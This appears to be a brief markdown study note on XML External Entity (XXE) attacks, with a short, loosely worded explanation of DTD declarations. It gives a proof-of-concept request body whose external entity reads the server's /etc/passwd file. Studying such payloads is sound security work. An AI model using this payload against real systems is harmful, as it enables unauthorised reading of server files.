


# XML External Entities

## XXE POC


* **Make a simple request and get the response from BURP :**


```text
XML = version 1.0
Doctype root element is “thp”
!ELEMENT speciafy any type
!ENTITY set the book to the string “Universe”
Finaly the XML output
```

* Original request :



```text
data=<?xml version="1.0" ?>
<!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The %26book%3b</thp>
```



